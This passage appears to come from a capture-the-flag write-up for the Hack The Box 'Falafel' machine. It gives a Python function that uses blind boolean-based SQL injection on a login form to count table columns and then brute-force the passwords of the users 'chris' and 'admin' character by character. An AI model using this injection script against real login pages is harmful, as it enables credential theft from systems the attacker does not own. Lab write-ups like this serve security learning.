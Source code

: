 ![Screenshot](/assets/img/htb-falafel-writeup-screenshot/image_5.png)

To extract the password of user "chris" and "admin", a python script is created to bruteforce through the blind boolean-based SQL injection.
```python
def sql_bruteforce_password(session, username):
    # Bruteforcing number of columns in the table
    global target_login_url
    json_login_data = {'username':'chris', 'password':'admin'}
    col_num = 0
    for i in range (1,10):
        payload = f"chris' ORDER BY {i};-- -"
        json_login_data['username'] = payload
        r = session.post(target_login_url, data=json_login_data)
        if ("Wrong identification" in r.text):
            col_num = i
    print(f"Number of columns in current table: {col_num}")

    # Bruteforcing user password
    alphabet_list = string.ascii_lowercase + string.digits
    password = ''
    end_flag = False
    while (not end_flag):
        for word in alphabet_list:
            payload = f"{username}' AND password LIKE '{password}{word}%"
            json_login_data['username'] = payload
            r = session.post(target_login_url, data=json_login_data)
            if ("Wrong identification" in r.text):
                #print(f"Working payload: {word}")
                password += word
                print(f"Working payload: {password}")
                break
```